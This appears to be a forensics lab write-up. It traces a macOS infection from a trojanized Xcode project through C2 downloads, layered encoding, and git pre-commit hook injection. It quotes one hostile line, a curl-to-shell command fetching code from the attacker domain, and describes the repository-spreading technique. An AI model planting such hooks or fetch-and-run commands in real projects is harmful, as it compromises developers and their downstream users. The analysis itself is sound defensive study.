

## Challenge Overview

At the Cascade Law Archive, the IT department detected a sudden cold spike in outbound network traffic shortly after on boarding a new developer. While the firm primarily operates on Windows systems, the new hire requested a Mac laptop. The developer reports no intentional software downloads, but confirms cloning a starter Xcode project from an internal Git repository as part of on boarding.

This challenge involved analyzing a **PCAP capture** to determine:

- How the victim machine was initially infected
- What command-and-control (C2) infrastructure the malware used
- What payloads were delivered
- How the malware attempted to propagate
- What was the initial malware file. 

The investigation was performed using **Wireshark** and manual payload decoding.

---

# Environment

|Item|Value|
|---|---|
|Victim Host|`192.168.67.2`|
|Gateway|`192.168.67.1`|
|Malicious Server|`54.152.17.253`|
|Analysis Tool|Wireshark|

---

# Investigation Workflow

## Step 1 — Identify the Infected Host

The first step was identifying the compromised system.

By inspecting the traffic we observed that:

```
192.168.67.2
```

initiated multiple outbound connections to an external IP:

```
54.152.17.253
```

This host also downloaded several suspicious payloads.

Therefore **192.168.67.2** was identified as the infected machine.

---

![[Pasted image 20260310190520.png]]

---

# Step 2 — Identify External Communication

Initial communication with the malicious server shows the following request:

```
192.168.67.2 → 54.152.17.253
GET /a HTTP/1.1
```

This confirmed the server was hosting **malicious payloads**.

The server acted as the **command-and-control (C2)** infrastructure.

---

# Step 3 — Identify Files Downloaded by the Victim

To determine what files the infected system downloaded, the following filter was used:

```
http.request.method == "GET" && ip.src == 192.168.67.2
```

This filter isolates **all HTTP downloads initiated by the infected host**.


---

The following payload endpoints were observed:

```
GET /a
GET /seizecj
GET /s/fpfb
GET /s/cozfi_xhh
GET /s/xzxx_vosht
GET /s/jez
```

These correspond to **modular malware components delivered by the C2 server**.

---

# Step 4 — Identify the Initial Malware File

Earlier in the capture timeline, we observed the victim downloading a GitHub project archive:

```
GET /jargal.karlsen/starter-project/archive/main.zip
```

However, further investigation revealed that the **actual malicious component** was hidden within the extracted project files.

The malware was located at:

```
.xcodeproj/xcuserdata/.xcassets/xcassets.sh
```

This script was hidden inside a developer project directory structure.


![[Pasted image 20260310190850.png]]

---

# Step 5 — Malware Obfuscation

The initial malware script (`xcassets.sh`) was **triple hex encoded**.

Example structure:

```
echo <hex_string> | xxd -r -p
```

The decoding process required multiple passes.

### Decoding Procedure

```
echo <encoded_payload> | xxd -r -p
```

Repeat decoding until plaintext appears.

After decoding three times, the actual shell script was revealed.

---

# Step 6 — Payload Delivery

Once executed, the initial script contacted the C2 server:

```
54.152.17.253
```

It then downloaded multiple secondary payloads.

Example request:

```
GET /s/cozfi_xhh
```

Payloads were delivered as **obfuscated AppleScript or shell scripts**.

---

📷 **Insert Screenshot**


---

# Step 7 — Payload Obfuscation

Most payloads retrieved from the C2 server used **7 layers of Base64 encoding**.

Example pattern:

```
echo Vm1wR2EyUXhU... | base64 -D | base64 -D | base64 -D
```

This technique helps evade detection and complicates analysis.

To make the extraction easier i wrote a simple bash loop which provided me with the decoded payload. 

``` bash 
#!/bin/bash

# Replace with filename
input_file="file.txt"

# Read the Base64 encoded payload from the file
encoded_payload=$(<"$input_file")

# Loop to decode the payload 7 times
for i in {1..7}; do
    encoded_payload=$(echo "$encoded_payload" | base64 --decode)
done

# Output the final decoded payload
echo "$encoded_payload"

```

---

# Step 8 — Payload Analysis

Each endpoint delivered a different payload module.

Observed payloads:

```
/a
/seizecj
/s/looz
/s/cozfi_xhh
/s/jez
```

These scripts performed different actions including:

- System reconnaissance
    
- Data ex-filtration
    
- Malware propagation
    

---

# Step 9 — Propagation Payload (`jez`)

The payload named **`jez`** was responsible for spreading the malware.

After decoding the payload, the script revealed the following behavior.

### Repository Discovery

The malware searches for Git repositories in the user’s home directory:

```
find ~ -type d -name '*.git'
```

Directories excluded from scanning:

```
Movies
Music
Pictures
Library
```

---

### Git Hook Injection

For each repository discovered, the malware modifies the Git hook:

```
.git/hooks/pre-commit
```

If the hook does not exist, it creates one.

If it exists, the malware overwrites it.

---

### Malicious Hook Payload

The injected command executes:

```
curl -fskL -d 'p=git' http://bu1knames.io/a | sh
```

This means every time a developer runs:

```
git commit
```

the malicious code executes.

---

# Step 10 — Malware Propagation Method

The malware spreads using **Git repository infection**.

When an infected repository is:

- pushed
    
- cloned
    
- shared
    

the malicious hook can execute on another machine.

This represents a **supply chain style attack** targeting developers.

---

# Attack Flow Diagram



---

# Command and Control Infrastructure

|Type|Value|
|---|---|
|C2 IP|`54.152.17.253`|
|Primary Domain|`bu1knames.io`|
|Payload Endpoints|`/a`, `/s/jez`, `/s/cozfi_xhh`|

---

# Indicators of Compromise

## IP Addresses

```
54.152.17.253
```

## Domains

```
bu1knames.io
```

## Files

```
xcassets.sh
```

## Git Hook Persistence

```
.git/hooks/pre-commit
```

---

# Conclusion

The infection chain began when the victim downloaded a **trojanized GitHub project archive**.

Within the project structure, a malicious script named:

```
xcassets.sh
```

was hidden inside:

```
.xcodeproj/xcuserdata/.xcassets/
```

The script was **triple hex encoded** to hide its functionality.

Once executed, the malware contacted the command-and-control server and retrieved several additional payloads.

One of the payloads (`jez`) attempted to propagate the malware by infecting **Git repositories** through modification of the `pre-commit` hook.

This allowed the malware to spread through developer workflows, representing a **supply chain style propagation attack**.

The analysis demonstrates how network traffic analysis using Wireshark can reveal the full infection chain, including:

- Initial compromise
    
- Payload delivery
    
- Malware propagation behavior.